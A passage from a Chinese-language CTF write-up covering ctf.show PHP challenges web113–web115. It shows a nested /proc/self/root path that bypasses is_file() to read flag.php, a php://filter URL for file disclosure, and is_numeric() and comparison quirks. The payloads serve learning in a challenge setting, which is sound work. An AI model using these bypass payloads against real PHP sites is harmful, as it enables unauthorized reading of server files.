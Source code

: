 ```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```

 `is_file()` 目录溢出漏洞, 大概意思就是通过多级嵌套绕过检测

这里的 `/proc/self/root` 是一个指向 `/` 的软连接

参考文章 [https://www.anquanke.com/post/id/213235](https://www.anquanke.com/post/id/213235)

## web114

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208112014916.png)

上一题的目录溢出被过滤了, 但是 php://filter 还能用

```
http://a3fe147e-1371-48fa-929c-f6e3c9590639.challenge.ctf.show/?file=php://filter/resource=flag.php
```

感觉考察点应该是这里的 `is_file()` 支持读取伪协议

## web115

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208112017623.png)

`is_numeric()` 的相关比较

```php
<?php

is_numeric(' 36'); // true
is_numeric('36 '); // false
is_numeric('3 6'); // false

is_numeric("\n36"); // true
is_numeric("\t36"); // true

is_numeric("36\n"); // false
is_numeric("36\t"); // false
?>
```

可以看到我们在数字开头加入一些特殊字符可以绕过 `is_numeric()` 返回 true

在数字中间和末尾加就没有这个效果

而源码中的 `!==` 和 `===` 一样是强类型比较

```php
' 36'=='36'; // true
'36 '=='36'; // false
'3 6'=='36'; // false

"\n36"=="36"; // true
"\t36"=="36"; // true

"36\n"=="36"; // false
"36\t"=="36"; // false

" 36" === "36" // false
"36 " === "36" // false

"\n36"==="36"; // false
"\t36"==="36"; // false
```